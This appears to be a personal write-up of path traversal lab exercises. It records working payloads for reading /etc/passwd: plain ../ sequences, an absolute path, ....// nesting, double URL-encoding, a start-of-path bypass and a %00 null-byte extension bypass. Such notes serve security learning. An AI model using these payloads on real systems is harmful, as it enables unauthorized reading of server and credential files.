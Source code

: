 # Encounters

# Simple file path traversal
Get /etc/passwd
## Observations
- Image files are retrieved as /image=filename=foo.png
- Simple payload - ```/../../../etc/passwd``` and the contents are in the response body. 

# File path traversal, traversal sequences blocked with absolute path bypass
Get /etc/passwd
## Observations
- Pretty much the same thing but absolute paths rather than traversal so the payload ```/etc/passwd``` does the trick. For example on Windows we'd need C:\Windows\win.ini. 

# File path traversal, traversal sequences stripped non-recursively
## Observations
- Same vector but the app is stripping what I am sending. Sent it to Intruder and used Jhadix's list without URL encoding and got a number of successes with double paths like this:
```
/image?filename=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
```

# File path traversal, traversal sequences stripped with superfluous URL-decode
## Observations
- Did the same thing as above but this time I allowed URL encoding. 
```
/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%2fpasswd
```

# File path traversal, validation of start of path
## Observations
- Using absolute paths to validate their files, kind of. Really we just need to provide the path then recurse back up to the root directory then down to where we want to go:
```
/image?filename=/var/www/images/../../../etc/passwd
```

# File path traversal, validation of file extension with null byte bypass
## Observations
- Validating files with extensions so if we URL encoded and provide a null by %00 then we can add .jpg or some other valid extension to satisfy the requirement:
```
/image?filename=%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd%00%2ejpg
```
Again JHaddix list worked. 

